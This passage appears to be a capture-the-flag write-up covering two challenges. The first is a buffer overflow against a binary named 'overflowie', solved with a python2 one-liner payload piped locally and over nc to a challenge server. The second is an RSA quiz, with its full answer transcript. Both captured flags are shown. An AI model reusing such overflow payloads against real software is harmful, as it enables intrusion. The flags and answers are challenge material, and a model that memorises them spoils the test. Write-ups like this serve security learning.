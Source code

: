 The following payload is generated:
- 0x50 - 0x04 = 76 random bytes in order to fill the buffer;
- l33t = 0x6c333374 in order to overwrite the value of the variable which has to be equal to l33t.

```
python2 -c 'print "A" * 76 + "\x6c\x33\x33\x74\x00"' | ./overflowie
python2 -c 'print "A" * 76 + "\x6c\x33\x33\x74\x00"' | nc 34.107.86.157 32276
Enter the very secure code to get the flag: 
Omg you found the supersecret flag. You are l33t ind33d
ctf{417e85857875cd875f23abee3d45ef6a4fa68a56e692a8c998e0d82f4f3e6ac7}
```

## rsa-quiz - CTF{45d2f31123799facb31c46b757ed2cbd151ae8dd9798a9468c6f24ac20f91b90}

Run `rsaquiz.py` in order to compute the values. The answers are already stored
in `rsaquiz.txt`.
Run `cat rsaquiz.txt | nc 35.198.90.23 30147` in order to obtain the flag.

The following output is obtained:
```
What does the S in RSA stand for? -> shamir
If p is 19 and q is 3739, what is the value of n? -> 19*3739 = 71041

That was too simple! If n is 675663679375703 and q is 29523773, what is the value of p? -> 675663679375703 / 29523773 = 22885411

Ok, I'll just give you something harder!
n=616571, e=3, plaintext=1337
Gimme the ciphertext: -> 1337 ^ 3 mod 616571 = 150557

Maybe the numbers are too small...
e = 65537
p = 963760406398143099635821645271
q = 652843489670187712976171493587
Gimme the totient of n: -> 629184706918922046908481552646032188862036550371523772238220

Oh, you know some basic math concepts... then give me d (same p, q, e):
307128003403317747267180880276778243646877508627728107750933

You do seem to exhibit some signs of intelligence. Decrypt 572595362828191547472857717126029502965119335350497403975777 using the same values for e, p, and q (input a number):
1333333333333333333333333337

Hmm.. Please encrypt the number 12345667890987654321 for me (same values for p, q, e): 151278525444064658069879866884270452252861617143516500870512

It appears that you might be sentient...
n = 152929646813683153154787333192209811374534931741180398509668504886770084711528324536881564240152608914496861079378215645834083235871680777390419398324440551788881235875710125519745698893521658131360881276421398904578928914542813247036088610425115558275142389520693568113609349732403288787435837393262598817311
e = 65537
p = 11715663067252462334145907798116932394656022442626274139918684856227467477260502860548284356112191762447814937304839893522375277179695353326622698517979487
ciphertext =  92908075623156504607201038131151080534030070467291869074115564565673791201995576947013121170577615751235315949275320830645597799585395148208661103156568883014693664616195873778936141694426969384158471475412561910909609358186641323174105881281083630450513961668012263710620618509888202996082557289343751590657
Tell me the plaintext (as a number):
2097258740241773022137051374446964

Did you enjoy this quiz? (one word)
yes

```